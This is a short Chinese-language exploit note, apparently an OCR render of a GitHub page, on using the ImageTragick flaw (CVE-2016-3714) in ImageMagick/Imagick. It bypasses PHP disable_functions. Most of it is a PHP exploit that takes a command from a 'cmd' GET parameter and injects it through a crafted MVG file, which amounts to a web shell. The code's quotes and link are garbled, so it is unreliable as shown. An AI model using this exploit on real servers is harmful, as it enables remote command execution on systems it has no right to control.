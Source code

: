 ```yaml
---
title: "利用 ImageMagick 漏洞绕过（一）"
id: zhfly3470
---
```


## 利用 ImageMagick 漏洞绕过（一）

**1.利用条件**

Imagick <= 3.3.0
PHP >= 5.4

**2.基本原理**

ImageTragick（CVE-2016-3714）
漏洞的利用过程非常简单，只要将精心构造的图片上传至使用漏洞版本的ImageMagick，ImageMagick会自动对其格式进行转换，转换过程中就会执行攻击者插入在图片中的命令。因此很多具有头像上传、图片转换、图片编辑等具备图片上传功能的网站都可能会中招。

**3.exp**

```
<?php
echo "Disable Functions: " . ini_get('disable_functions') . "\n";

$command = PHP_SAPI == ‘cli’ ? $argv[1] : $_GET[‘cmd’];

if ($command == ‘’) {

$command = ‘id’;

}

$exploit = <<<EOF

push graphic-context

viewbox 0 0 640 480

fill ‘url([https://example.com/image.jpg"|$command"](https://example.com/image.jpg%22%7C%24command%22))’

pop graphic-context

EOF; `file_put_contents(“KKKK.mvg”, $exploit);

$thumb = new Imagick();

$thumb->readImage(‘KKKK.mvg’);

$thumb->writeImage(‘KKKK.png’);

$thumb->clear();

$thumb->destroy();

unlink(“KKKK.mvg”);

unlink(“KKKK.png”);

?>` 
```